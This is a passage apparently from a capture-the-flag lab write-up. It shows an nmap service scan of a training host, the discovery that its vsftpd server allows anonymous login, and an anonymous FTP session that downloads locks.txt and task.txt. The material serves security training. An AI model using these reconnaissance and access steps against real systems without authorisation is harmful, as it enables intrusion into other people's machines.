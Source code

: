 
```sh
nmap -sC -sV -oN FTP-Scan -p 21 10.10.149.155        
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-23 20:28 CEST
Nmap scan report for 10.10.149.155
Host is up (0.060s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.3.139
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.58 seconds
```

---
And bingo, Anonymous login is availalbe on the machine. 
Let's login with Anonymous to the client and check what i can find on it. 
```sh
ftp 10.10.149.155
Connected to 10.10.149.155.
220 (vsFTPd 3.0.3)
Name (10.10.149.155:pmalle): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07 21:41 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07 21:47 task.txt
226 Directory send OK.
```

I downloaded this files from the FTP-Server to my Client. 

```sh
ftp> get locks.txt
ftp> get task.txt
```
